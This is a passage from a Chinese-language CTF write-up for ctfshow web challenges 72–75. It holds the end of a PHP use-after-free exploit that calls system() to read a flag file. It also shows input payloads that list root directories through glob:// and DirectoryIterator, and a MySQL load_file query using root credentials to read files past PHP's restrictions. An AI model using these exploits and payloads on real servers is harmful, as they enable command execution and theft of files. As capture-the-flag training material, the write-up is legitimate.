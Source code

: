 ```php

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

## web73

```php
这题可以使用scandir查看根目录的文件，发现flagc.txt
c=include('/flagc.txt');exit(0);得到flag
```

## web74

```php
c=var_export(scandir('/'));exit(0);
发现回显NULL
改为使用
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0);
得到根目录文件
c=include('/flagx.txt');exit(0);
得到flag
```

## web75

```php
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0);
得到flag36.txt，但是include无法打开，hint里给的代码如下：

//还是一样通过glob协议找到文件为flag36.txt，但是include限制文件夹，之前的uaf poc因为strlen被禁了获取不到system地址也没法用了，但是既然php受限制，那么mysql的load_file函数呢
    
try {
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');
	# 在MySQL中,load_file(完整路径)函数读取一个文件并将其内容作为字符串返回。
	foreach($dbh->query('select load_file("/flag36.txt")') as $row)
	{
		echo($row[0])."|"; 
	}
	$dbh = null;
}catch (PDOException $e) {
	echo $e->getMessage();
```